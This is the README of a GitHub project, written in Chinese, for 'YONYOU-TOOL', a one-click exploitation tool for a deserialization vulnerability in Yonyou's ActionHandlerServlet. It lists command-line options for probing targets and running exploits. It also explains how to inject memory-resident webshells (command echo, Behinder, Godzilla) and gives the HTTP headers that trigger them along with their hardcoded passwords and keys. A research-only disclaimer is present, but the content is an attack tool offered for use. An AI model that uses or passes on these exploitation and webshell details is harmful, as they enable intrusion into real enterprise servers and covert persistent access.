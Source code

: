 # YONYOU-TOOL

用于用友漏洞一键利用。

学习用友 ActionHandlerServlet 反序列化过程时一时兴起，顺手写一款利用工具记录学习。

本项目参考 **wafinfo** 项目代码，项目地址：https://github.com/wafinfo/NCTOOls。

## 免责声明

本工具仅适用于安全研究学习，严禁使用本工具发起网络黑客攻击，造成法律后果，请使用者自负。

## 支持漏洞

```
ActionHandlerServet 反序列化
```

目前仅支持 ActionHandlerServlet 反序列化漏洞，后续根据学习进度**佛系**更新......

## 使用说明

```
Usage: java -jar YONYOU-TOOL.jar [Options]
  Options:
    -h, --help        Show this help
    -t, --target      Set target url  (e.g.: http://0.0.0.0:443)
    -m, --module      Set module  (support: poc exp)
    -v, --vuln        Set vulnerability  (e.g.: ActionHandlerServlet)
    -p, --proxy       Set http proxy  (e.g.: http://127.0.0.1:8080)
    -d, --dnslog      Set dnslog platform
  Vuln Support:
    1. ActionHandlerServlet
  Tips:
    1. You must specify the target, vuln, mod parameters.
    2. When mod is set to poc, the dnslog parameter must be specified.
```

## 使用教程

### 漏洞探测

支持自定义 dnslog 探测。-t 指定目标 url，-v 指定利用的漏洞，-m 指定 poc 模块，-d 指定dnslog。

![image-20240723193745717](assets/image-20240723193745717.png)

### 漏洞利用

支持一键打入内存马，同时注入回显、冰蝎、哥斯拉。

```
回显
添加请求头
x-client-referer:http://www.baidu.com/
x-client-data:testzxcv
testzxcv:<base64编码后命令>
--------------------------------------------------------------------------------------------
冰蝎
添加请求头
x-client-referer:http://www.baidu.com/
x-client-data:behinder
密码
chaveyyds
--------------------------------------------------------------------------------------------
哥斯拉
添加请求头
x-client-referer:http://www.baidu.com/
x-client-data:godzilla
密钥
chaveyyds
密码
pass
```

-t 指定目标 url，-v 指定利用的漏洞，-m 指定 exp 模块。

![image-20240723195917985](assets/image-20240723195917985.png)

注入 Filter 类型内存马需要手动检查内存马是否存在。

![image-20240723200132924](assets/image-20240723200132924.png)

![image-20240723200403714](assets/image-20240723200403714.png)

![image-20240723200610246](assets/image-20240723200610246.png)

## 最后

后续有时间增加漏洞...再说...再说...再说...

后续考虑修改为图形化界面...

记录学习为主...

能用就行...
